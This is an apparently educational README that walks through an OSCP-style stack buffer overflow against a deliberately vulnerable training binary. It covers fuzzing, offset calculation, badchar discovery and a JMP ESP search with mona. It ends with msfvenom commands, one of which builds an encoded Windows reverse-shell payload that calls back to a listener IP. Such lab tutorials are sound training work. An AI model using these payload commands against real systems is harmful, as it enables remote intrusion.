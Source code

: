 # OSCP-like-buffer-overflow
OSCP-like buffer overflow

* Immunity Debugger http://www.immunityinc.com/products/debugger/
* Mona.py https://github.com/corelan/mona

To avoid the error message saying "The program can't start because VCRUNTIME140.dll is missing from your computer", make sure whether you have the x86 version of Microsoft Visual C++ Redistributable preinstalled on your Windows virtual machine.
Once we've got everything prepared, we can fire up the Immunity Debugger and open our target binary.

## 1. Fuzzing the binary
Firstly, we can run the `hello.py` script to verify whether the application responds to us (not necessary)

Then we run the `fuzzer.py` script to identify the crashing point

## 2. Calculating the offset from stack pointer
After finding the crashing point, we will calculate the offset to the EIP address. Start with generating a string with the pattern_create.rb (/usr/share/metasploit-framework/tools/exploit/pattern_create.rb)
```
ruby pattern_create.rb -l 1024
```

Use the pattern_offset
```
ruby pattern_offset.rb -q 39653138
```

## 3. Determining Badchars
In this particular case, the vulnerable function is *sprintf* (it handles strings). Given the fact that ASCII strings are terminated with a null-byte ("\x00"), we put it at the top of the list.
The newline character is used by handleConnection() to chunk the messages we send to it. 
So the starting point for our badchars is "\n" alternatively known as "\x0A"

To be sure that we haven't missed any other we will utilize our python script `badchars.py`.

To identify badchars we can also use `!mona bytearray` as it creates the entire character array from 00 to FF in .bin format for comparison.

```
!mona bytearray –cpb "\x00"
```

## 4. Identifying JMP ESP gadget
After determining the badchars of the application, we will go straight to identification of the JMP ESP that will be responsible for changing the natural flow of application to run our shellcode (which we will insert into the stack).

In assembly, the OPCODE for JMP ESP is `\xff\xe4`. Using mona we will locate the register in the application that points to this OPCODE. Thanks to that, we can change the flow o the application to run our shellcode, rewriting the stack from its base (EBP).

`!mona modules` to identify the unprotected modules

`!mona find -s "\xff\xe4"` to identify which of these pointers have the OPCODE for JMP ESP

Run `!mona jmp -r esp -cpb "\x00\x0A"` to identify which pointers do not have the badchars found.

At this point we might be in possesion of the correct JMP ESP address. If we want to check, we simply run `!mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe` directly on the identified vulnerable module.

## 5. Generating shellcode
Now it's time to come up with some interesting bytecode to put on the stack. Metasploit has a built-in tool called msfvenom that can produce shellcode for us.
```
msfvenom -p windows/exec --list-options
```

![](https://raw.githubusercontent.com/d15rup7or/OSCP-like-buffer-overflow/master/img/msfvenom%20-p%20windowsexec%20--list-options.PNG)

For the purpose of the training, we will provide the following options to msfvenom:
* -p windows/exec (we want Windows shellcode that will execute a command)
* -b '\x00\x0A' (the list of bad characters we determined earlier, so that msfvenom can avoid having them in the generated shellcode
* -f python (output shellcode in a Python-friendly format)
* CMD=calc.exe EXITFUNC=thread (options for the windows/exec payload - in this case starting the calc.exe)

```
msfvenom -p windows/exec -b '\x00\x0A' \ -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```

#### For reverse shell connection:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.21.128 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
```
The shellcode contains machine code for a function that invokes a shell. The goal is to copy it into the buffer variable and then overwrite the return address

`EXITFUN=thread` preventes the shellcode from crashing the application when executing our shellcode

Now we just insert the msfvenom output in our exploit.py and run it against our application to gain access to the system exploiting the Buffer Overflow
